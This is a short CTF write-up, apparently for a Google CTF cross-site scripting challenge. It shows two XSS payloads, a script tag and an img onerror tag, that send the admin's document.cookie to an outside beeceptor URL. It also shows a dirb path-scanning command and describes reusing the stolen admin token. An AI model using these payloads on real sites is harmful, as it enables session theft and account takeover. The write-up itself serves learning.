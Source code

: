 This challenge is clearly another xss challenge as its in the webpage link we get.<br />
We see a page with a moving image and a chatbox with an admin.

I tried the same xss as in the Government Agriculture Network challenge:<br />
\<script\>location.href="https://paulovh.free.beeceptor.com?"+ document.cookie\</script\>

This returns:<br />
HACKER ALERT!

So there is some checking for xss going on.
This can get very tricky as i found out last year however the first thing I checked already worked out:<br />
Using an img tag with an onerror that executes javascript is another very common way to inject javascript and this does work:<br />
\<img src=X onerror='location.href="https://paulovh.free.beeceptor.com?"+ document.cookie'/\>

This gave me the flag on the beeceptor mock api page!

When trying to go to /admin of the page you get redirected back to the main page.<br />
I tried this /admin page as it is a common page on many sites but for a more reliable way of getting these kind of pages you can use:<br />
dirb https://cwo-xss.web.ctfcompetition.com<br />
the dirb program will go trough a wordlist of common website paths and test them all and return you which ones worked.

The xss also gives you an auth token from the admin.
Adding this in my firefox storage (explained in my Government Agriculture Network write-up) and going again to the /admin page I now get a new page with 3 options:
- Users
- Livestreams
- Camera Controls

The first 2 do nothing, the last one gives the message:<br />
Requests only accepted from 127.0.0.1

Here I got stuck. I did not know for sure there was a flag to find here but it did seem like there was something here.

I eventualy needed to read a write-up to find this flag :( There is some magic happening with parameters in the url that make the page think you are comming from 127.0.0.1<br />
I dont know how I should have found this. I will be looking for write-ups that give a better explanation than the first I found and add a better explanation here if I do.

This part I abandoned after I had failed myself in the crypto challenge. Maybe more googleing would make it clear even without finding other write-ups but at this point I had had enough for now.

